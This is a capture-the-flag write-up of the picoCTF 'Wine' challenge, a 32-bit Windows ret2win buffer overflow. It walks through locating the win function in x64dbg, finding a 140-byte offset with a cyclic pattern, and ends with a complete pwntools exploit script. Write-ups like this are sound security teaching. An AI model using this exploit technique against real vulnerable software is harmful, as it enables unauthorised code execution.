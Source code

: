 # Wine - Pwn - 300 points

Wine was a windows ret2win buffer overflow challenge, with the source code available to us. 

From looking at the source code, we know the buffer size and we can see that the function that we are interested in has some strings which are printed if certain conditions are met (no flag.txt in current directory):

	void win(){
	  char buf[FLAGSIZE];
	  FILE *f = fopen("flag.txt","r");
	  if (f == NULL) {
	    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if running on picoCTF servers.\n");
	    exit(0);
	  }
	  fgets(buf,FLAGSIZE,f); // size bound read
	  puts(buf);
	  fflush(stdout);
	}


So our goal is to find the address of this function and redirect the flow of the program to it.

In cases of ELF binaries finding addresses that we need is usually fairly straightforward - throw the binary in GDB, disassemble, calculate the offsets and so on - however with exe's we don't have the same luxury. There are a number of debuggers available for windows, but personally I find that none of them are quite as intuative and easy to use as GDB.

For the purposes of debugging this exe binary, I used [x64dbg](https://x64dbg.com/) inside a Windows VM, and used it to find the address of the win function. 

An interesting point to note here is the the vuln function was clearly defined in the symbols, meaning we could easily search for it specifically, but the win function's symbols weren't there - meaning we had to manually look for those previously mentioned strings. They weren't hard to find - we could use x64dbg's search feature to search for specific strings - and we can see the function address (00401530) just above the "flag.txt" string below:

![win](screenshots/flag_func.png?raw=true)

A quick check of the architecture using Ghidra tells us that this is a 32 bit exe binary, which means that we need to pass the address into this binary in little-endian format.

To find the offset, we need to generate a cyclic pattern, pass it into the program once it prompts us for input, and find the offset value in ESP (stack pointer) at the point of crash.

To do this I used pwntools' cyclic command line tool to generate a 200 character pattern and passed it into the program. Inpecting the registers in x64dbg shows us the values from our pattern  that made it into the ESP:

![esp](screenshots/offset.png?raw=true)


So our final payload is 144 bytes - 4 bytes for the address we want to redirect to and 140 junk characters. Finally, we can put together a quick pwntools scripts and get the flag:

	from pwn import *

	# Pass in remote server details
	def start(argv=[], *a, **kw):
	    return remote(sys.argv[1], sys.argv[2], *a, **kw)

	# context.log_level = 'debug'

	# Start program
	io = start()

	io.recvline() # Give me a string!

	offset = 140
	address = b"\x30\x15\x40\x00"

	# Build payload (ret2win)
	payload = flat([
	    offset * b'A',  
	    address
	])

	# Send the payload
	io.sendline(payload)

	# Get our flag
	flag = io.recvline()

	p = log.progress('Flag: ')
	p.success(flag.decode('utf-8'))

